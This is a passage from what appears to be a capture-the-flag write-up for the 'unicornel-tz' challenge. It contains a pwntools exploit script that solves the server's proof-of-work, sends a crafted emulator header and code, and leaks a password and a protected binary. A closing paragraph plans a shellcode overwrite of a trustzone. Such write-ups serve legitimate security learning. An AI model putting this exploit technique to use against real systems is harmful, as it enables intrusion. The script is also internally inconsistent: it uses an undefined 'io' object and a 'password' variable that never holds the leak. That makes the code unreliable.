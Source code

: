 ```python
        
        password:
            .ascii "password\0"
        memprot_x86_64:
            .ascii "memprot_x86_64\0"
        ''')

p = remote("unicornel-tz.2025.ctfcompetition.com", 1337)

p.recvuntil(b' solve ')
p.recvuntil(b' solve ')
to_solve = p.recvline().strip().decode()
print(f"{to_solve}")

sol = os.popen(f"python3 kctf-pow.py solve {to_solve} 2>/dev/null").read() #kctf-pow solver
print(sol)
p.sendlineafter(b"Solution? ", sol.encode())

p.recvuntil(b' unicornel!')

# Given format of header for the emulator
header = flat(
    p32(unicorn.UC_ARCH_X86),
    p32(unicorn.UC_MODE_64),
    p64(0x1000), p64(0x1000),   
    b'\0' * 3 * 16,             
    p16(len(code)),             
    p8(1)
).ljust(80, b'\0')

p.sendline(b'')
p.recvuntil(b'DATA_START')
p.send(header)
p.recvuntil(b'CODE_START')
p.send(code)

p.recvuntil(b'pid 0\n')
pwd = p.recv(0x10)
print(pwd) #leak the password
memprot_x86_64 = io.recv(0x100).strip(b'\x00')

# copy the values into files for local testing
with open('password', 'wb') as f:
    f.write(password)
with open('memprot_x86_64', 'wb') as f:
    f.write(memprot_x86_64)

```
`password = sup3r_s3cure_sj\0`
Since we've crossed our barrier of now being able to access `memprot` from the password we just leaked, we can give trustzones write access. So we can now overwrite a custom trustzone with our shellcode that can execute the `validate_handle` syscall. We will use the fact that `validate_handle` returns the address of the element in `shared_buffer`, that we will generate from `create_shared`.
